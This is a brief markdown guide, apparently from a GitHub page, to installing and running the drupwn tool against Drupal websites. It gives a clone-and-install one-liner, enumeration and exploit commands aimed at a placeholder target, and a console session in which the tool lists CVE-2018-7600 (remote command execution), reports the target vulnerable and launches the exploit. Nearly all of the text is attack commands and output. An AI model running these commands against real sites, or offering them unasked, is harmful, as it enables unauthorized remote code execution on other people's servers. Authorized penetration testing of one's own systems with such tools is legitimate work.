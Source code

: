 Inspired in C4N6

#

#

#

This guide cover the two actual modes supported by this great tool

# drupwn

#

#

## Install

        cd /usr/share/ && git clone https://github.com/immunIT/drupwn.git && cd drupwn && python setup.py install && pip3 install -r requirements.txt

## Enumeration

        cd /usr/share/drupwn && python3 drupwn enum https://yourtarget.com --nodes --dfiles --themes --version x --users --range 10 --thread 10 --log

#

#

#

## Exploit

        cd /usr/share/drupwn && python3 drupwn exploit https://yourtarget.com --nodes --dfiles --themes --version x --users --range 10 --thread 10 --log

#

#

#

        ____
       / __ \_______  ______ _      ______
      / / / / ___/ / / / __ \ | /| / / __ \
     / /_/ / /  / /_/ / /_/ / |/ |/ / / / /
    /_____/_/   \__,_/ .___/|__/|__/_/ /_/
                     /_/

Commands available: list | quit | check [CVE_NUMBER] | exploit [CVE_NUMBER]

Drupwn> list
+---------------+--------------------------+------------------------+
| CVE | Description | Versions affected |
+---------------+--------------------------+------------------------+
| CVE-2018-7600 | Remote Command Execution | 7.x < 7.58 & 8.x < 8.1 |
+---------------+--------------------------+------------------------+

Drupwn> check CVE-2018-7600

[+] Application vulnerable

Drupwn> exploit CVE-2018-7600

Drupwn>

#

#

#

From this point in advance let that your curiosity be spontaneous...

